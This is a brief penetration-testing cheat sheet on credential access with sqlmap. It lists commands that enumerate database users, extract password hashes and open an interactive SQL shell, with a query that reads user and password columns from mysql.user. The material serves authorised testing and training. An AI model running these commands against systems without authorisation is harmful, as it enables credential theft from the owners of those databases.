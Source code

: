 # 05 - Credentials

Search Tag(s): #sqlmap #enumeration-and-discovery #credential-access-and-dumping #data-exfiltration

## Automated

Enumerate user database accounts.

```
$ sqlmap -u "<URL>" --random-agent --users
```

Extract user database passwords.

```
$ sqlmap -u "<URL>" --random-agent --passwords
```

## Interactive SQL Shell

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SELECT USER()

sql-shell> SELECT user, password FROM mysql.user
```